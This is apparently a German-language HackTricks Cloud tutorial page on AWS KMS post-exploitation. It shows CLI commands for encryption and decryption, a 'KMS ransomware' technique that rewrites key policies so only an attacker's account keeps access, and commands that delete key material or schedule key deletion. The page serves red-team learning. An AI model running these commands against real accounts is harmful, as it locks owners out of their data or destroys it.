 # AWS - KMS Post Exploitation

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## KMS

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Informationen verschlüsseln/entschlüsseln

{% hint style="success" %}
Beachten Sie, dass die Datei, wenn Sie einige Daten in einer Datei entschlüsseln möchten, die binären Daten enthalten muss, nicht base64-kodierte Daten.
{% endhint %}

* Verwendung eines **symmetrischen** Schlüssels
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Verwendung eines **asymmetrischen** Schlüssels:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Ein Angreifer mit privilegiertem Zugriff auf KMS könnte die KMS-Richtlinie der Schlüssel ändern und **seinem Konto Zugriff darauf gewähren**, während der Zugriff, der dem legitimen Konto gewährt wurde, entfernt wird.

Dann können die Benutzer des legitimen Kontos auf keine Informationen von Diensten zugreifen, die mit diesen Schlüsseln verschlüsselt wurden, was eine einfache, aber effektive Ransomware über das Konto schafft.

{% hint style="warning" %}
Beachten Sie, dass **AWS verwaltete Schlüssel nicht von diesem Angriff betroffen sind**, nur **vom Kunden verwaltete Schlüssel**.

Beachten Sie auch die Notwendigkeit, den Parameter **`--bypass-policy-lockout-safety-check`** zu verwenden (das Fehlen dieser Option in der Webkonsole macht diesen Angriff nur über die CLI möglich).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Beachten Sie, dass Sie, wenn Sie diese Richtlinie ändern und nur einem externen Konto Zugriff gewähren, und dann von diesem externen Konto aus versuchen, eine neue Richtlinie festzulegen, um **den Zugriff auf das ursprüngliche Konto zurückzugeben, dies nicht möglich sein wird**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generische KMS-Ransomware

#### Globale KMS-Ransomware

Es gibt einen weiteren Weg, um eine globale KMS-Ransomware durchzuführen, der die folgenden Schritte umfasst:

* Erstellen Sie einen neuen **Schlüssel mit einem vom Angreifer importierten Schlüsselmaterial**.
* **Re-verschlüsseln Sie ältere Daten**, die mit der vorherigen Version verschlüsselt wurden, mit der neuen.
* **Löschen Sie den KMS-Schlüssel**.
* Jetzt könnte nur der Angreifer, der das ursprüngliche Schlüsselmaterial hat, die verschlüsselten Daten entschlüsseln.

### Schlüssel zerstören
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Beachten Sie, dass AWS jetzt **verhindert, dass die vorherigen Aktionen von einem anderen Konto aus durchgeführt werden:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
